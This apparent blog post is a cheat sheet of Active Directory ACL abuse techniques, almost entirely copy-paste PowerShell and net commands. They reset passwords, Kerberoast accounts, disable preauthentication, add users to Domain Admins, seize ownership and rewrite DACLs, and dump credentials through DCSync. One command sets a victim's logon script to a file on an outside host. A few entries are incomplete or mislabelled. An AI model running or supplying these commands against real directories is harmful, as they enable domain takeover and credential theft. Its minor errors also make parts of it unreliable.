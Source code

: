 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

2. AllExtendedRights

- Change Password
```bash
net user <username> <password> /domain
```
- Add to Group
   - Using `net`: 
	```bash
	net group "domain admins" spotless/add /domain
	```
	- Using Active Directory module:
	```powershell
	Add-ADGroupMember -Identity "domain admins" -Members spotless
	```
    - Using PowerView module:
	```powershell
	Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
	```

3. Self-Membership
- Add to Group
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

4. ExtendedRight on
- User-Force-Change-Password (Password Reset)
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```

5. WriteProperty
- Add to Group
```powershell
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```

6. WriteOwner
- Change the object’s owner
```powershell
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
```
- Change Owner
```powershell
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```

7. WriteDACL
- Grant Generic Permissions** (must be the owner)
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```
